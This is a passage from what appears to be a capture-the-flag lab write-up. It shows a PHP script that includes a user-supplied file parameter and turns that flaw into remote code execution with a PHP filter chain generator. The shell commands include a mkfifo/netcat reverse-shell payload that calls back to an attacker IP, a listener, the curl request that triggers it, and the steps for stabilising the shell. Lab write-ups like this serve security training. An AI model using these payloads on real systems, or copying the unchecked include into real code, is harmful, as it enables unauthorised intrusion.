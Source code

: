 ![300965b22760127c4e94ea7d48f89462.png](/resources/8c3acd2236fc4eeca63eeab156dc5dc3.png)

```php
<?php
  //echo "Hello World";
  if(isset($_GET['file'])) {
    $file = $_GET['file'];
    include($file);
  }
?>
```

Now, we have confirmed we can use the PHP filter. Let's try using the [PHP filter chain generator](https://github.com/synacktiv/php_filter_chain_generator) by Synactiv to get Remote Code Execution (RCE). This script will create a PHP filter chain that will execute code - in this case a remote shell. The output is long, so we will pipe the output to `grep` so we grab only the PHP filter portion and save it to `shell.txt`:

```sh
python3 php_filter_chain_generator.py --chain '<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER_IP> 4444 >/tmp/f"); ?>' | grep '^php' > shell.txt
```

Before sending the PHP filter payload, we need to start our Netcat listener:

```sh
nc -nvlp 4444
```

Next, send the following command to execute the reverse shell payload:

```sh
curl -s "http://cheese.thm/secret-script.php?file=$(cat shell.txt)"
```

![55942a2dd7b3d0985805860a80631c1c.png](/resources/edf67f03e3e54153b3b33ba29f61f6ff.png)

Let's stablize our new shell:

1. Use Python to spawn a stable shell:

   ```sh
   python3 -c 'import pty;pty.spawn("/bin/bash")'
   ```

2. `CTRL+Z` to background the current shell

3. Fix echoing and foregrounds the shell:

   ```sh
   stty raw -echo;fg
   ```

4. Set terminal to use 256 colors:

   ```sh
   export TERM=xterm-256color
   ```

# Privilege Escalation
